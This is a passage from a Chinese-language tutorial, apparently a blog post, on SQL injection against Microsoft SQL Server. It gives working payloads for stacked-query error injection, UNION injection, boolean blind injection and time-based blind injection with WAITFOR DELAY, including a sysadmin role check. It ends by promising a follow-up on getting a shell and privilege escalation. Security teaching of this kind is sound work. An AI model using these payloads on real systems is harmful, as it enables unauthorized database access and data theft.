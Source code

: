 ```mssql
select * from admin where id =1;declare @a varchar(2000) set @a='select convert(int,user)' exec(@a);
```

`declare`定义变量 `set`赋值`exec`执行

## 联合查询注入

mssql不用数字占位，因为可能会发生隐式转换，我们用null来占位

```mssql
SELECT * from users where id=1 union select null,null,DB_NAME();
```

你也可以这样来联合报错

```mssql
SELECT * from users where id=1 union select null,null, (select CAST(db_name() as int))
```

## 布尔盲注

```mssql
SELECT * from users where id=1 and ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1))=109
```

布尔盲注没有mssql那么多姿势，大同小异截取字符串比较

## 时间盲注

```mssql
SELECT * from users where id=1;if (select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'
```

`waitfor delay '0:0:5'`是mssql的延时语法

同样可以用字符串截取来延时注入

```mssql
select * from users where id=1;if (ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)))>1 WAITFOR DELAY '0:0:5'
```

---

下一篇写拿shell和提权的。再次感谢404师傅。